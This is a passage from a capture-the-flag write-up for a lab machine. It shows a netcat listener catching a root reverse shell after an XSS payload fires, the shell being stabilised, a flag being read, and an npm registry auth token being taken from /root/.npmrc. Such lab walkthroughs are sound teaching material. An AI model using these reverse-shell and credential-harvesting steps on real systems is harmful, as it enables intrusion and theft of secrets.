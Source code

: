 Now, we can see our `xss.js` file fetched first, followed by our reverse shell payload right after:

```console
10.10.165.202 - - [26/Dec/2024 16:10:03] "GET /xss.js HTTP/1.1" 200 -
10.10.165.202 - - [26/Dec/2024 16:10:03] "GET / HTTP/1.1" 200 -
```

With this, we also get a shell in our listener as `root` inside a container.

```console
$ nc -lvnp 443
listening on [any] 443 ...
connect to [10.11.72.22] from (UNKNOWN) [10.10.165.202] 46848
/app/bfc_thehubint # python3 -c 'import pty;pty.spawn("/bin/bash");'
9e0b831d786c:/app/bfc_thehubint# export TERM=xterm
9e0b831d786c:/app/bfc_thehubint# ^Z
zsh: suspended  nc -lvnp 443

$ stty raw -echo; fg

9e0b831d786c:/app/bfc_thehubint# id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
9e0b831d786c:/app/bfc_thehubint#
```

Lastly, we can read the first flag at `/flag-be64845bf0c553d7ec378aa54a6c3bfe.txt`.

```console
9e0b831d786c:/app/bfc_thehubint# wc -c /flag-be64845bf0c553d7ec378aa54a6c3bfe.txt
38 /flag-be64845bf0c553d7ec378aa54a6c3bfe.txt
```

### Second Flag

Starting with enumerating the file system, we find two important things:

- First, inside the `/root/.npmrc`, we get an auth token for the `Node.js` registry.

```console
9e0b831d786c:~# cat .npmrc
//npm-registry.bestfestivalcompany.thm:4873/:_authToken=OWI1MmY3MzA0MDEyZmVkYTIwMzdjMTZmZDhjZjA1ZmQ6OGJiNjQxM2Y0NDYzZDZiMGRiMWI2NGY2ZjhkOWU2OWJlNTk0M2VkNzg5OTU5NDM2NjkyMDdm
registry=http://npm-registry.bestfestivalcompany.thm:4873/
```
- Second, we find a `Git` repository at `/app/bfc_thehubuat/assets/`.

```console
9e0b831d786c:~# ls -la /app/bfc_thehubuat/assets/
total 36
drwxr-xr-x    5 root     root          4096 Dec 16 17:07 .
drwxr-xr-x    1 root     root          4096 Dec 18 19:46 ..
drwxr-xr-x    7 root     root          4096 Dec 16 17:22 .git
drwxr-xr-x    2 root     root          4096 Dec 16 17:02 backups
drwxr-xr-x    2 root     root          4096 Dec 12 13:55 cache
-rw-rw-r--    1 root     root           486 Dec 16 17:02 jwks.json
-rw-r--r--    1 root     root           216 Dec 16 17:02 package.json
-rw-r--r--    1 root     root            38 Dec 16 17:02 robots.txt
```
